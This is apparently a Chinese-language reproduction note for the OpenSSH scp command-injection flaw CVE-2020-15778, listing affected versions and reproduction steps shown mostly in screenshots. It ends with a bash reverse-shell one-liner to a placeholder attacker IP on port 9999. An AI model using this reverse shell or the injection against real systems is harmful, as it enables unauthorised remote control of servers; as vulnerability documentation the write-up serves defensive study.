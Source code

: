 # OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

```
OpenSSH <= 8.3p1
```

## 漏洞复现

可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![image-20220209125535740](./images/202202091255788.png)

执行命令 ping dnslog



![image-20220209125550216](./images/202202091255296.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```